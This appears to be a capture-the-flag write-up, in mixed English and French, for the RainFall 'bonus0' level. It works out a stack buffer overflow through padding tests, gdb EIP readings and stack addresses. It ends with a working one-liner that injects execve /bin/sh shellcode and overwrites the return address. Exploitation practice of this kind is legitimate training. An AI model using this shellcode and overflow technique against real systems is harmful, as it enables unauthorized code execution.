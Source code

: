 Here is our shellcode (size 24)

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

### Payload

0xbffff71c --> address of v3 --> \x1c\xf7\xff\xbf
0xbffff70e --> address of buffer -> \x0e\xf7\xff\xbf
0xbffff74e --> address of buffer maybe wtf lol mdr --> \x4e\xf7\xff\xbf

```bash
(python -c 'print ("A" * 20)'; cat) | ./bonus0
```

````bash
(python -c 'print "A" * 20'; python -c 'print "B" * 19')  | ./bonus0```

```bash
(python -c 'print "A" * 20'; python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x1c\xf7\xff\xbf"')  | ./bonus0
````

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0 --> 1ere partie shellcode
\x0b\xcd\x80 --> 2eme partie shellcode
'A' \* 13
\x0e\xf7\xff\xbf

```bash
(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"'; python -c 'print "\x0b\xcd\x80" + "A" * 11 + "\x4e\xf7\xff\xbf" + "A"'; cat)  | ./bonus0
```

run < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"'; python -c 'print "\x0b\xcd\x80" + "A" * 12 + "\x4e\xf7\xff\xbf" + "A"';)

LOG pour find segfault

```bash
bonus0@RainFall:~$ (python -c 'print "A" * 20'; python -c 'print "B" * 17')  | ./bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBB
Segmentation fault (core dumped)
bonus0@RainFall:~$ (python -c 'print "A" * 20'; python -c 'print "B" * 16')  | ./bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBB
```

```
Wrong Payload
20 chars de payload

- 16 chars de payload
- overwrite return addresse --> jump vers debut de buffer (start of payload)
+ 16 chars de payload
+ overwrite return addresse --> jump vers debut de buffer (start of payload)
```

input1: 19 A || input2: 1B
--> AAAAAAAAAAAAAAAAAAA B
19 A | 1B

intput1 : 20 A || input2: 1 B
--> AAAAAAAAAAAAAAAAAAAAB B
20 A + 1B | 1B

input1: 20A || input2 : 5 B
--> AAAAAAAAAAAAAAAAAAAABBBBB BBBBB
20 A + 5B | 5B

```
input 1 = AAAAAAAAAAAAAAAAAAAA (20 CHARS)
input 2 = BBBBBBBBBBBBBBBB	(16 CHARS)		OK
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBB	(55 chars total)

input 2 = BBBBBBBBBBBBBBBBB	(17 CHARS)		SEGFAULT
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBB	(55 chars total)
```

```bash
(python -c 'print "A" * 20'; python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"')  | ./bonus0
```

```
segfault
0x	41	33	61	41
	A	3	a	A
```

`offset to segfault at 20 CHARS dans input1 et 9 CHARS in input 2`

```bash
Payload
20 chars de payload (-> input 1)
+ 9 chars de payload (-> input 2)
+ adress to start of payload (address of buffer in main)
+ ballec du reste?
```

```bash
SHELLCODE
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

```buffer
20 chars de
AAAAAAAAAAAAAAAAAAAABBBBBBBBBB BBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBB BBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBB BBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBB BBBBBBBBBBBBBBB
```

---

## NEW PAYLAOD

```bash
input 1 = AAAAAAAAAAAAAAAAAAAA	(20 CHARS)

input 2 = BBBBBBBBBBBBBBBB		(16 CHARS)		OK
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBB		(55 chars total)

input 2 = BBBBBBBBBBBBBBBBB		(17 CHARS)		SEGFAULT
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBB		(55 chars total)
eip            0xb7e40042	0xb7e40042

input 2 = BBBBBBBBBBBBBBBBBB	(18 CHARS)		SEGFAULT
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBBB	(57 chars total)
eip            0x00424242	0x00424242

input 2 = BBBBBBBBBBBBBBBBBBB	(19 CHARS)		SEGFAULT
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBBBB	(59 chars total)
eip            0x42424242	0x42424242

input 2 = BBBBBBBBBBCDEFGHIJK	(19 CHARS)		SEGFAULT
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBCDEFGHIJK BBBBBBBBBBCDEFGHIJK	(59 chars total)
eip            0x4a494847	0x4a494847
4a	49	48	47
J	I	H	G

input 2 = 14 CHARS + EIP (4 chars) + 1 CHAR trash
input 1 = 20 CHARS

BUFFER = 
input 1 (20 chars)
+ input 2 ( 19 )
+ espace
+ input 2 (19)

BUFFER =

20 chars unique
+ 14 chars
+ EIP (4 chars)
+ 1 char trash
+ espace
+ 14 chars
+ EIP (4 chars) //celui la overflow
+ 1 char trash

PAYLOAD = 
input 1 = 20er char du shellcode
input 2 = 3 characters du shellcode + 11 trash + EIP (jump == 4 chars) + 1 trash

SHELLCODE


PAYLOAD
input 1 = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
input 2 = "\x0b\xcd\x80" + 11 * "A" + "\x06\xf7\xff\xbf" + "A"
input 2 = 
```

address of start of buffer: `0xbffff706` = `\x06\xf7\xff\xbf`

```bash
(python -c 'print ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0")'; python -c 'print ("\x0b\xcd\x80" + 11 * "A" + "\x06\xf7\xff\xbf" + "A")'; cat)  | ./bonus0
```
